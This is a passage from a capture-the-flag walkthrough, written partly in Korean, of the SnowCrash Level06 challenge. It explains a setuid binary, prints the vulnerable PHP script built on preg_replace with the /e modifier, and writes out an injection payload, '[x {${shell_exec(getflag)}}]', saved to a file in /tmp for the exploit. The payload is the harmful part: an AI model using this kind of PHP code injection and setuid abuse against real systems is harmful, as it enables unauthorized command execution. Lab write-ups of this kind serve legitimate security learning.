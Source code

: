 # Level06

## ls -l

```zsh
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

두 파일전부다 실행 및 읽기가능
level06파일에서 rws는 read-write-execute + setuid를 의미합니다. 이것은 해당 파일을 실행할 때, 실행하는 사용자가 파일 소유자(flag06)의 권한을 가지게 됩니다. 따라서 level06 사용자가 level06 파일을 실행하면, 실행하는 동안 flag06 사용자의 권한을 가지게 됩니다.

## level06 실행

```zsh
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

## level06.php

```php
level06@SnowCrash:~$ cat ./level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

## regex and shell_exec
reg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)

regex : (\[x (.*)\])

#To match the regex our string must start by "[x" and finish by "]"

[x {${shell_exec(getflag)}}]

## make file 
```zsh
level06@SnowCrash:~$ mkdir /tmp/level06
level06@SnowCrash:~$ echo '[x {${shell_exec(getflag)}}]' > /tmp/level06/flag06
```